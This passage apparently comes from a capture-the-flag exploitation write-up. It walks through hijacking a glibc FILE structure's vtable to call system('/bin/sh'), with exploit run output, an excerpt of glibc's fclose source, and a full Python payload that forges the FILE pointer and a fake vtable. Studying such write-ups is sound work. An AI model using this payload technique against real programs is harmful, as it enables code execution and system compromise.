 Note: small mistake on pic. there are 32, not 16 bytes between name and fp

Let's try our exploit. We should get a shell!

```bash
$ python3 exp.py local
[+] Starting local process './patched': pid 17028
[*] [x] leaked content of /proc/self/maps
[*] [x] retrieved libc_base: 0xf7d57000 from leaked /proc/self/maps
[*] [x] calculated address of system function: 0xf7d91940
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ id
[*] Process './patched' stopped with exit code -11 (SIGSEGV) (pid 17028)
[*] Got EOF while sending in interactive
```

Oh, sth. went wrong. And this took me ages before I figured this out. It turns out that `_IO_new_fclose` checks at the beginning if it should use old implementation:

```
# define _IO_vtable_offset(THIS) (THIS)->_vtable_offset

_IO_new_fclose (_IO_FILE *fp)
{
  [..]
  /* We desperately try to help programs which are using streams in a
     strange way and mix old and new functions.  Detect old streams
     here.  */
  if (_IO_vtable_offset (fp) != 0)
    return _IO_old_fclose (fp);

  [...]  
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    _IO_un_link ((struct _IO_FILE_plus *) fp);
}
```

meaning that we have to set _vtable_offset field in _IO_File struct to 0.

Our final payload we provide as name:

```python
payload = b''
payload += pack('<L', FLAGS) # don't call _IO_close_it, we want to invoke  _IO_FINISH (fp) only;
payload += b';/bin/sh\x00'

# overwrite FILE* fp to point to NAME_BUF_ADDR
payload = payload.ljust(FP_OFST, b'A')
payload += p32(NAME_BUF_ADDR)

# set signed char _vtable_offset to 0, to use _IO_new_fclose
payload = payload.ljust(OLD_VTABLE_CHAR_OFST, b'A')
payload += b'\x00'

# overwrite _IO_jump_t *vtable
payload = payload.ljust(VTABLE_OFST, b'A')
payload += p32(NAME_BUF_ADDR + VTABLE_OFST + 0x4)

# fake _IO_jump_t, just fill the whole vtable with system_func_addr
payload += p32(system_func_addr) * 21
```
